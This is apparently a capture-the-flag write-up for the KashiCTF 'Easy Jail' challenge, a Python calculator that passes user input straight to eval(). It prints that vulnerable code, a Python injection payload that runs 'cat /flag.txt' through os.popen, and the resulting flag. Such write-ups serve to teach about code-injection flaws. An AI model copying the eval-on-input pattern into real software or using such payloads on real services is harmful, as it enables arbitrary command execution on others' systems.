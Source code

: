 ```yaml
---
author: MarshmalloQi
pubDatetime: 2025-04-08T20:58:52.737Z
modDatetime: 2025-05-30T09:25:46.734Z
title: An Easy Jail
description: A CTF chall involving python scripting and knowledge of class and objects
slug: en/kashictf/misc/Easy_Jail
featured: false
draft: false
tags:
  - kashictf
  - python
  - miscellaneous
  - reversing
  - python
  - OOPS
  - class
  - calculator
---
```


# Easy Jail

**Final Points:** 100


## Description
I made this calculator. I have a feeling that it's not safe :(

## Attachments 

+ [challenge.zip](/public/kashictf/easy_jail/challenge.zip)


---
## Writeup

On connecting to the connection and reading the code attached with the problem which is as below
``` python3
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```
I found that it is really an easy *PyJail* Challenge. Trying the below command gave the flag

`>>> __import__('os').popen('cat /flag.txt').read()`
> __import__('os').popen('cat /flag.txt').read() --> KashiCTF{3V4L_41NT_54F3_0q6PBe9E}

---
## Flag

```
KashiCTF{3V4L_41NT_54F3_0q6PBe9E}
```  